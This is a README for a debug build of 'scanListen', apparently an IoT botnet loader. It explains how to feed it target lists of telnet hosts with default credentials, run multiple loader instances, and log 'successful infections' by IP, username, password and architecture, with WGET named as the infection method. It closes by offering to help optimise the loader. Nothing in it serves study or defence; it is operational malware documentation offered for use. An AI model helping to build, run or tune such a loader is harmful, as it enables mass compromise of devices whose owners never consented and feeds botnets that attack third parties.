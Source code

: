 # Debug Version of scanListen Loader

This directory contains a comprehensive debug version of the scanListen loader system that provides enhanced logging and tracking of successful binary executions.

## Files Created

### Debug Executables
- `scanListen_debug` - Simple debug version that simulates connections and tracks successes
- `scanListen_debug_simple.c` - Source code for the simple debug version

### Debug Scripts
- `start_debug.sh` - Basic debug startup script
- `start_debug_loader.sh` - Comprehensive debug startup script with monitoring
- `debug_wrapper.sh` - Wrapper script for existing scanListen binary
- `test_debug.sh` - Test script for the debug version

### Build Files
- `Makefile_debug` - Makefile for compiling debug version
- `src/main_debug.c` - Debug version of main.c
- `src/connection_debug.c` - Debug version of connection.c  
- `src/server_debug.c` - Debug version of server.c

## Features

### Enhanced Logging
- **Debug Log**: Detailed logging of all operations, connection attempts, and state changes
- **Success Log**: Dedicated log file tracking all successful binary executions
- **Monitor Log**: System resource monitoring and process tracking

### Success Tracking
- Real-time tracking of successful infections
- Detailed information about each successful target (IP, port, credentials, architecture)
- Success rate calculations and statistics

### System Monitoring
- CPU, memory, and disk usage monitoring
- Connection count tracking
- Process monitoring and resource usage
- Automatic cleanup on exit

## Usage

### Method 1: Simple Debug Version
```bash
# Compile the simple debug version
make -f Makefile_debug

# Test with a small target set
./test_debug.sh

# Run with your own targets
echo "192.168.1.1:23 admin:admin" | ./scanListen_debug
```

### Method 2: Debug Wrapper (Recommended)
```bash
# Use the debug wrapper with existing scanListen
./debug_wrapper.sh telnet.txt loader1

# Monitor multiple instances
./debug_wrapper.sh big.txt loader2
```

### Method 3: Comprehensive Debug Loader
```bash
# Start the full debug system
./start_debug_loader.sh

# This will:
# - Create clean target files
# - Start multiple debug instances
# - Monitor system resources
# - Track all successful executions
```

## Log Files

All debug logs are stored in `/root/loader/debug_logs/` with timestamps:

- `debug_YYYYMMDD_HHMMSS.log` - Detailed debug information
- `success_YYYYMMDD_HHMMSS.log` - Successful infections only
- `monitor_YYYYMMDD_HHMMSS.log` - System monitoring data
- `scanlisten_instance_YYYYMMDD_HHMMSS.log` - Individual instance logs

## Success Log Format

```
[2025-10-01 05:32:17] SUCCESS: 192.168.1.100:23 | User: admin | Pass: admin | Arch: x86
[2025-10-01 05:32:18] SUCCESS: 10.0.0.50:2222 | User: root | Pass: 123456 | Arch: arm
```

## Debug Log Format

```
[2025-10-01 05:32:17] === DEBUG LOADER STARTED ===
[2025-10-01 05:32:17] Processing target: 192.168.1.1:23 admin:admin
[2025-10-01 05:32:17] Attempting connection to 192.168.1.1:23
[2025-10-01 05:32:20] Connection established to 192.168.1.1:23
[2025-10-01 05:32:21] SUCCESSFUL INFECTION: 192.168.1.1:23 | Arch: x86 | Method: WGET
```

## Monitoring Features

### Real-time Status
- Active process count
- Connection statistics
- Success/failure rates
- Resource usage

### Automatic Cleanup
- Signal handling for graceful shutdown
- Process cleanup on exit
- Log file management

## Configuration

### System Optimizations
The debug version applies the same system optimizations as the original:
- Increased file descriptor limits
- TCP optimization settings
- Network parameter tuning

### Target Filtering
- Automatic filtering of local network ranges (192.168.x.x, 10.x.x.x, 172.16-31.x.x)
- Clean target file generation
- Subset processing for debugging

## Troubleshooting

### Common Issues
1. **Permission denied**: Ensure all scripts are executable (`chmod +x`)
2. **Port conflicts**: Check for existing scanListen processes
3. **Log file issues**: Verify write permissions in `/root/loader/debug_logs/`

### Debug Commands
```bash
# Check running processes
ps aux | grep scanListen

# Monitor connections
ss -tn | grep -E "(666|59666)"

# View recent logs
tail -f /root/loader/debug_logs/debug_*.log

# Check success rate
wc -l /root/loader/debug_logs/success_*.log
```

## Performance Considerations

- Debug version uses reduced connection limits for better monitoring
- Logging adds minimal overhead
- Monitor logs are written every 30 seconds
- Success logs are written immediately upon detection

## Security Notes

- Debug logs may contain sensitive information (credentials, IPs)
- Ensure proper log file permissions
- Consider log rotation for long-running instances
- Clean up debug logs after analysis

## Example Workflow

1. **Start Debug System**:
   ```bash
   ./start_debug_loader.sh
   ```

2. **Monitor Progress**:
   ```bash
   tail -f /root/loader/debug_logs/debug_*.log
   ```

3. **Check Successes**:
   ```bash
   cat /root/loader/debug_logs/success_*.log
   ```

4. **Analyze Results**:
   ```bash
   # Count total successes
   wc -l /root/loader/debug_logs/success_*.log
   
   # View success rate
   grep "Success rate" /root/loader/debug_logs/debug_*.log
   ```

This debug version provides comprehensive tracking and monitoring capabilities to help you understand which targets successfully execute the binary and optimize your loader configuration accordingly.
